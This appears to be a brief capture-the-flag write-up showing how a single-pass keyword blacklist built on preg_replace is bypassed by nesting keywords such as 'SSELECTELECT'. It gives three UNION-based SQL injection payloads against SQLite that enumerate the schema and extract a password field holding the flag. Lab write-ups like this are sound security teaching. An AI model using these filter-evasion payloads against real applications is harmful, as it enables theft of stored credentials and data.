 Saw that the ```preg_replace()``` function just finds the forbidden words and removes them, this instantly raised a red flag for me because the code keeps running without those names even if found.
I bypassed this by putting instead of ```SELECT``` => ```SSELECTELECT```, so the middle ```SELECT``` would get removed but there would still be the outer ```SELECT``` left.
I did this for all of my queries and got these results:

```-1 AND 0=1 UUNIONNION SSELECTELECT 1, (SSELECTELECT ggrouproup_concat(name) FFROMROM sqlite_master)```
output:
Other User Details:
id -> 1
username -> users

```-1 AND 0=1 UUNIONNION SSELECTELECT 1, (SSELECTELECT sql FFROMROM sqlite_master WHERE name = 'users')```
output:
Other User Details:
id -> 1
username -> CREATE TABLE users(id int(7), username varchar(255), password varchar(255))

```-1 AND 0=1 UUNIONNION SSELECTELECT 1, (SSELECTELECT password FFROMROM users)```
output:
Other User Details:
id -> 1
username -> WEBSEC{BecauseBlacklistsAreOftenAgoodIdea}
